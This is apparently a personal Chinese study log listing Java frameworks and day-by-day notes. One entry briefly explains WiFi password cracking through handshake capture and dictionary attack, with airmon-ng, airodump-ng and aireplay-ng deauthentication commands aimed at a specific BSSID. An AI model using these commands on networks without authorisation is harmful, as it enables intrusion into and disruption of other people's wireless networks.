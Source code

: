 ```
ssm
    spring

    mybatis

    spring mvc

springboot

spirng cloud

javaweb

    jsp
    ajax
    Java Servlet
```
### XDL JavaSE课程体系
![javase](/img/posts/java/javase.png)



# 今天是第64天  

### 今日任务
java基础部分
### 每日新词
kali keli
### 当天小结
正式学习Java的第一天,加油!
### 每日分享

keli系统-集成一些工具

通过获取传输握手包数据,采用密码字典实现,破解WIFI密码

```
查看网络配置
ifconfig
工具
airmon-ng start wlan0
查看网卡
iwconfig
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:00 -w ~/a/ wlan0
aireplay-ng -0 0 -a 48:0E:EC:7C:32:00 wlan
0
```

# 今天是第65天  
